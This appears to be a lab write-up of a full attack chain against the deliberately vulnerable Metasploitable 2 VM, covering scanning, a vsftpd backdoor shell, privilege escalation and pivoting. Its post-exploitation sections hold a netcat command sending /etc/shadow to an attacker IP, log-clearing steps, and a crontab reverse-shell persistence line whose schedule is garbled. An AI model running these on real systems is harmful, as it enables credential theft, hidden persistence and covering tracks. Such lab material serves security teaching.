 # Metasploitable 2

This document shows an hacking approach for Metasploitable 2, involving multiple phases such as reconnaissance, manual exploitation, privilege escalation, and post-exploitation.

## 1. Reconnaissance (Information Gathering)

### Active and Passive Scanning:

Use `nmap` to identify open ports, services, and OS details.

```
nmap -A -sV <target IP>
```

### Service Enumeration:

#### Port Scan Results

| Port     | State | Service     | Version                                             |
| -------- | ----- | ----------- | --------------------------------------------------- |
| 21/tcp   | open  | ftp         | vsftpd 2.3.4                                        |
| 22/tcp   | open  | ssh         | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)        |
| 23/tcp   | open  | telnet      | Linux telnetd                                       |
| 25/tcp   | open  | smtp        | Postfix smtpd                                       |
| 53/tcp   | open  | domain      | ISC BIND 9.4.2                                      |
| 80/tcp   | open  | http        | Apache httpd 2.2.8 ((Ubuntu) DAV/2)                 |
| 111/tcp  | open  | rpcbind     | 2 (RPC #100000)                                     |
| 139/tcp  | open  | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)         |
| 445/tcp  | open  | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)         |
| 512/tcp  | open  | exec        | netkit-rsh rexecd                                   |
| 513/tcp  | open  | login       |                                                     |
| 514/tcp  | open  | shell       | Netkit rshd                                         |
| 1099/tcp | open  | java-rmi    | GNU Classpath grmiregistry                          |
| 1524/tcp | open  | bindshell   | Metasploitable root shell                           |
| 2049/tcp | open  | nfs         | 2-4 (RPC #100003)                                   |
| 2121/tcp | open  | ftp         | ProFTPD 1.3.1                                       |
| 3306/tcp | open  | mysql       | MySQL 5.0.51a-3ubuntu5                              |
| 3632/tcp | open  | distccd     | distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))    |
| 5432/tcp | open  | postgresql  | PostgreSQL DB 8.3.0 - 8.3.7                         |
| 5900/tcp | open  | vnc         | VNC (protocol 3.3)                                  |
| 6000/tcp | open  | X11         | (access denied)                                     |
| 6667/tcp | open  | irc         | UnrealIRCd (Admin email admin@Metasploitable.LAN)   |
| 6697/tcp | open  | irc         | UnrealIRCd (Admin email admin@Metasploitable.LAN)   |
| 8009/tcp | open  | ajp13       | Apache Jserv (Protocol v1.3)                        |
| 8180/tcp | open  | http        | Apache Tomcat/Coyote JSP engine 1.1                 |
| 8787/tcp | open  | drb         | Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb) |

#### Service Info:

- **Host**: metasploitable.localdomain
- **OSs**: Unix, Linux
- **CPE**: cpe:/o:linux:linux_kernel

## 2. Vulnerability Assessment

For an exploit we used different sources in the internet.

For this example I attached the exploit in the exploit directory.

Normally you can search through the hacking db or similar like

- https://www.exploit-db.com/
- https://www.exploit-db.com/google-hacking-database/

## 3. Exploitation (Manual and Customized)

### vsftpd 2.3.4 Backdoor:

As a listener we use NetCat

nc -vnlp 4444

As the listener is active we execute the exploit and open the reverse shell.

opening a bash shell

python -c 'import pty;pty.spawn("/bin/bash")'

## 4. Privilege Escalation

Once a low-privilege shell is obtained, escalate privileges.

### Kernel Exploits:

Look for kernel vulnerabilities like **dirty cow** or `udev` exploits.

### Search for SUID Binaries:

```
find / -perm -u=s -type f 2>/dev/null
```

### Misconfigurations:

Check for misconfigured services (e.g., NFS, sudo permissions).

## 5. Pivoting and Lateral Movement

After gaining initial access, pivot within the network using SSH pivoting or port forwarding.

### SSH Pivoting Example:

```
ssh -L <local_port>:<target_IP>:<target_service_port> <user>@<compromised_host>
```

### Metasploit Route Setup (Post-Exploitation):

```
run autoroute -s <target IP>
```

## 6. Post-Exploitation

### Dump Passwords:

Use tools like `hashdump` or `mimikatz` to retrieve stored passwords or hashes.

### Gather Sensitive Data:

Retrieve SSH keys, database files, and system credentials.

### Data Exfiltration Using Netcat:

```
nc -lvp 4444 > file.txt
cat /etc/shadow | nc <attacker IP> 4444
```

## 7. Covering Tracks

Securely delete sensitive files and logs to remove traces of the attack.

### Clear Logs:

- `/var/log/auth.log`
- `.bash_history`

Use `shred` or `dd` to securely delete files.

## 8. Persistence

To maintain access, plant a backdoor or create a new account.

### Add a Cron Job for Backdoor:

```
echo "_/5 _ \* \* \* /bin/bash -i >& /dev/tcp/<attacker IP>/4444 0>&1" >> /etc/crontab
```

## Conclusion

This methodology goes beyond simple Metasploit usage by manually exploiting vulnerabilities, escalating privileges, pivoting through networks, and ensuring persistence and stealth. Follow these steps to simulate a more complex attack on Metasploitable 2.
